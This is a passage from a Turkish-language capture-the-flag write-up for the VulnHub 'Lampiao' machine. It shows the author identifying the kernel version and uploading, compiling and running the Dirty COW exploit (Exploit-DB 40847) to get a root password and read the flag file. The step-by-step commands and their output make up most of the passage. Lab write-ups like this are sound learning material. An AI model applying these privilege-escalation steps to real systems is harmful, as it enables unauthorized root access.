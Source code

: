 Birkaç başarısız deneme ve araştırmadan sonra tekrar exploit arayışına girdim. Sistemin kernel sürümüne uygun bi exploit buldum. Kernel sürümünü şu şekilde öğrenebilirsiniz.

```
tiago@lampiao:~$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
```

`4.4.0-31-generic` kernel sürümü için exploit ararken [buradaki](https://www.exploit-db.com/exploits/40847/) exploiti buldum. Ardından `scp` komutu ile bu exploiti sunucuya yükleyip çalıştırabiliriz.

```
┌─[✗]─[hatsat@HATSAT]─[~/Downloads]
└──╼ $scp 40847.cpp  tiago@172.16.0.177:~
tiago@172.16.0.177's password: 
40847.cpp                                                  100%   10KB  14.8MB/s   00:00
```

Şimdi derleyip çalıştıralım.

```
tiago@lampiao:~$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
tiago@lampiao:~$ ./dcow 
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
```

Ve artık root parolası elimizde. Parola: `dirtyCowFun`

```
tiago@lampiao:~$ su
Password: 
root@lampiao:/home/tiago# 
```

Şimdi root dizinindeki flag dosyasını okuyabiliriz.

```
root@lampiao:~# cat /root/flag.txt 
9740616875908d91ddcdaa8aea3af366
```

Bu makine boyunca araştırdığım konular şu şekilde.
* metasploit
* meterpreter
* hydra
* cewl
* scp

Bu vulnbubdan [vulnhub](https://www.vulnhub.com) dan çözdüğüm ilk makine idi. Beni oldukça yordu fakat devam edeceğim.

Umarım bu yazı size faydalı olmuştur. Eğer bi hatam varsa bana bildirmekten yorum atmaktan çekinmeyin. Şimdiden teşekkürler. Başarılar....
